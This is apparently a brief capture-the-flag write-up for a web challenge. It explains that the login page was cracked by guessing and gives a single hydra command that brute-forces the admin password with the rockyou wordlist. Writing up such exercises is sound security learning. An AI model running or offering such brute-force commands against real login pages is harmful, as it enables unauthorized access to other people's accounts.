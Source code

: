 # Mr. Green's Weird Website (web 120)
## Description
```
While investigating Mr. Green for something completely unrelated, we found this login page. Maybe you can find a way in?

http://18.219.196.70/
```
## Exploit
There was no information on what username or password Mr. Green used. This challenge was kind of guessing.

All I did was:
```bash
hydra -l admin -P rockyou.txt 18.219.196.70 http-post-form "login.php:username=^USER^&password=^PASS^:no luck"
```
